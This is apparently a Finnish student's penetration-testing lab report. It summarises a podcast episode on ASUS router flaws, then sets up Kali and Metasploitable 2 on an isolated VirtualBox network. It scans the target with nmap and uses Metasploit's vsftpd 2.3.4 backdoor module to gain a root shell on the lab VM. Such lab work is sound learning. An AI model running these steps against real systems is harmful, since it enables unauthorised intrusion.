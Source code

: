 # h1 OmaLabra 

## x)

[Darknet Diaries EP5:ASUSGATE](https://darknetdiaries.com/episode/5/)

- asus reitittimessä todella vakavia turvallisuusongelmia

- helpot default salasanat
- Ftp serverillä oli portti 21 auki joten kuka vaan oikealla ip osoitteella pääsisi sitä kautta käsiksi
- Samba, mahdollisti tiedostoihin käsiksi pääsemisen helposti kenelle vaan.
- vpn mahdollisti sen että muiden ongelmien avulla pääsee käsiksi koko talon verkkoon

- sata tuhatta samanlaista reititintä helposti löydettävissä, ongelma ei julkisessa tiedossa

- asus vastahakoinen selvittämään ongelmia kun informoitu yksityisesti

- kun ongelmia ei korjattu aluksi Kyle kertoi julkisesti osan haavoittuvuudesta, ja myöhemmin kokonaan

- nykyään helpompi ilmoittaa haavoittuvuuksista ja viranomaiset auttavat tilanteessa jos muuten ei muutosta tapahdu

- asus korjasi kaikki ongelmat lopulta, mutta tuomittiin silti rikkoneeksi lakia koska ei korjannut ja ilmoittanut ongelmista.
- asus on vuoteen 2036 asti saadut määräykset josta jokaisesta rikkeestä 16000$ sakko

"They must clearly notify their customers publically when a security update is available.  They must conduct security audits on their products.  This includes penetration testing, employee training, code reviews, risk assessments, and more."


2.4 7:15 

Virtualbox Host:  
- OS: Debian GNU/Linux 11 (bullseye) x86_64 
- Host: Aspire A515-55G V1.08 

## a, b ja c
a) Asenna Kali virtuaalikoneeseen
b) Asenna Metasploitable 2 virtuaalikoneeseen
c) Tee koneille virtuaaliverkko, jossa  
    - Kali saa yhteyden Internettiin, mutta sen voi laittaa pois päältä
    - Kalin ja Metasploitablen välillä on host-only network, niin että porttiskannatessa ym. koneet on eristetty intenetistä, mutta ne saavat yhteyden toisiinsa

latasin [metasploitable](https://sourceforge.net/projects/metasploitable/) 2 ja [kali](https://www.kali.org/get-kali/#kali-installer-images) linuxin 

Virtualboxissa uusi virtuaalikone- nimi kali levykuvaksi juuri ladattu kali 2023.1 

![](TTPictures/T1a.png)

laitoin kalin asentumaan taustalle ja jatkoin metasploitablen asennusta.

Type: Linux
Version: Other Linux(64-bit)

Hard disk - Use an existing virtual hard disk file tähän valitsin aiemmin ladatun metasploitable tiedoston

![](TTPictures/T1b.png)

file - tools - host only network manager
tein uuden host only network, laitoin sen metasploitable nat adapterin sijaan ja kaliin lisäsin toiseksi mahdollisuudeksi joten sillä pääsee tarvittaessa internettiin.

käynnistin metasploitablen, kirjauduin sisään msfadmin käyttäjälle ja ping komentoa käyttämällä tarkistin, että kone ei ollut netissä.
sen jälkeen ifconfig komennolla tarkistin laitteen ip osoitteen.

![](TTPictures/T1d.png)

kun kali oli asentunut tein siitä virtualboxissa snapshotin joten toivottavasti voin välttää uudelleenasennuksen ongelmatilanteissa.

tarkistin kalissa network adapterien toimivuuden ping komennolla.    
host only networkissa komento `ping google.com` antaa:
	ping: google.com: Temporary failure in name resolution
	
ja nat:
	64 bytes from hem09s02-in-f14.1e100.net (216.58.209.174): icmp_seq=7 ttl=63 time=5.94 ms

pingasin metasploitable ip osoitetta kalista jolla sain varmistuksen että host only network toimii niin kuin pitää.

	ping 192.168.56.102
	PING 192.168.56.102 (192.168.56.102) 56(84) bytes of data.

	sudo msfdb run
	db_status

aloitin tutkimalla maalikoneen aukinaisia portteja, skannasin ne komennolla db_nmap -A 192.168.56.102

	services
	
	host            port  proto  name         state  info
	----            ----  -----  ----         -----  ----
	192.168.56.102  21    tcp    ftp          open   vsftpd 2.3.4
	192.168.56.102  22    tcp    ssh          open   OpenSSH 4.7p1 Debian 8ubuntu1 protocol 2.0
	192.168.56.102  23    tcp    telnet       open   Linux telnetd
	192.168.56.102  25    tcp    smtp         open   Postfix smtpd
	192.168.56.102  53    tcp    domain       open   ISC BIND 9.4.2
	192.168.56.102  80    tcp    http         open   Apache httpd 2.2.8 (Ubuntu) DAV/2
	192.168.56.102  111   tcp    rpcbind      open   2 RPC #100000
	192.168.56.102  139   tcp    netbios-ssn  open   Samba smbd 3.X - 4.X workgroup: WORKGROUP
	192.168.56.102  445   tcp    netbios-ssn  open   Samba smbd 3.0.20-Debian workgroup: WORKGROUP
	192.168.56.102  512   tcp    exec         open   netkit-rsh rexecd
	192.168.56.102  513   tcp    login        open   OpenBSD or Solaris rlogind
	192.168.56.102  514   tcp    shell        open   Netkit rshd
	192.168.56.102  1099  tcp    java-rmi     open   GNU Classpath grmiregistry
	192.168.56.102  1524  tcp    bindshell    open   Metasploitable root shell
	192.168.56.102  2049  tcp    nfs          open   2-4 RPC #100003
	192.168.56.102  2121  tcp    ftp          open   ProFTPD 1.3.1
	192.168.56.102  3306  tcp    mysql        open   MySQL 5.0.51a-3ubuntu5
	192.168.56.102  5432  tcp    postgresql   open   PostgreSQL DB 8.3.0 - 8.3.7
	192.168.56.102  5900  tcp    vnc          open   VNC protocol 3.3
	192.168.56.102  6000  tcp    x11          open   access denied
	192.168.56.102  6667  tcp    irc          open   UnrealIRCd
	192.168.56.102  8009  tcp    ajp13        open   Apache Jserv Protocol v1.3
	192.168.56.102  8180  tcp    http         open   Apache Tomcat/Coyote JSP engine 1.1
	
tiesin että vsftpd 2.3.4 sisältää backdoor exploitin koska kävimme sen läpi tunnilla, etsin siitä tiedot komennolla `search vsftpd 2.3.4`

![](TTPictures/T1f2.png)  

valitsin exploitin käytettäväksi komennolla `use 0`

tutkin exploittia komennolla `info`

![](TTPictures/T1f3.png)
	
asetin RHOST muuttujan global arvon maalikoneen ip osoitteeksi komennolla `setg RHOSTS 192.168.56.102`  

ajoin exploitin komennolla `run`

![](TTPictures/T1f4.png)

sain maalikoneeseen terminaalin auki root oikeuksilla.
